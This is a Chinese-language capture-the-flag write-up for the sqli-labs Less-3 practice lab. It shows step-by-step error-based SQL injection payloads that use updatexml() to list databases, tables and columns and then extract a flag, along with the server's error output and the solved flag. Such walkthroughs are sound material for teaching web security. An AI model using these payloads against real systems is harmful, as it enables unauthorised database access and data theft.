 题目：sqli-labs less3

首先测试出题目为字符型注入，接下来测试注释能否生效，在url后加入`?id=1'--+`，访问后，输出如下
```
Welcome    Dhakkan
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
```
因此可知无法使用union注入，进行报错注入测试，在url后加入`?id=0' or updatexml(1,concat(0x7e,(SELECT Group_concat(schema_name) FROM information_schema.schemata),0x7e),1) or '1`，访问后，输出如下
```
Welcome    Dhakkan
XPATH syntax error: '~ctftraining,information_schema,'
```
接下来修改updatexml的第二个参数，查询ctftraining库中的表，在url后加入`id=0' or updatexml(1,concat(0x7e,(SELECT Group_concat(table_name) FROM information_schema.tables where table_schema='ctftraining'),0x7e),1) or '1`，访问后，输出如下
```
Welcome    Dhakkan
XPATH syntax error: '~flag,news,users~'
```
查询`flag`表的字段名，在url后加入`?id=0' or updatexml(1,concat(0x7e,(SELECT Group_concat(column_name) FROM information_schema.columns where table_schema='ctftraining' and table_name='flag'),0x7e),1) or '1`，访问后，输出如下
```
Welcome    Dhakkan
XPATH syntax error: '~flag~'
```
最后查`flag`表，在url后加入`?id=0' or updatexml(1,concat(0x7e,(SELECT Group_concat(flag) FROM ctftraining.flag),0x7e),1) or '1`，访问后，得到`flag`
```
Welcome    Dhakkan
XPATH syntax error: '~flag{92b3b749-0ac6-4674-bc04-91'
```
可以看出flag并没有显示完全，因此对flag字符串进行截断，在url后加入`?id=0' or updatexml(1,concat(0x7e,Right((SELECT Group_concat(flag) FROM ctftraining.flag),25),0x7e),1) or '1`，访问后，得到`flag`的后半段
```
Welcome    Dhakkan
XPATH syntax error: '~6-4674-bc04-916b8d91ab4b}~'
```
`flag`:`flag{92b3b749-0ac6-4674-bc04-916b8d91ab4b}`